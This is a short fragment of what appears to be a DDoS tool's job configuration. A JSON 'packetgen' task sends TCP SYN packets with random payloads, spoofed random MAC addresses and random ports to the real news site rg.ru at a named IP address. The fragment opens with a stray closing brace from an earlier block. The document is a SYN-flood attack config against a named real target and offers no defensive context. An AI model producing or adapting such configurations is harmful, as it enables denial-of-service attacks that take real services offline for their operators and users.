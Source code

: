 ```json
		}
}
```

```json
{
		"type": "packetgen",
		"args": {
		  "host": "rg.ru",
		  "port": "80",
		  "packet": {
			"payload": "{{ random_payload 100 }}",
			"ethernet": {
			  "src_mac": "{{ random_mac_addr }}",
			  "dst_mac": "{{ random_mac_addr }}"
			},
			"ip": {
			  "src_ip": "{{ local_ip }}",
			  "dst_ip": "194.190.37.226"
			},
			"tcp": {
			  "src_port": "{{ random_port }}",
			  "dst_port": "{{ random_port }}",
			  "flags": {
				"syn": true
			  }
			}
		  }
		}
}
```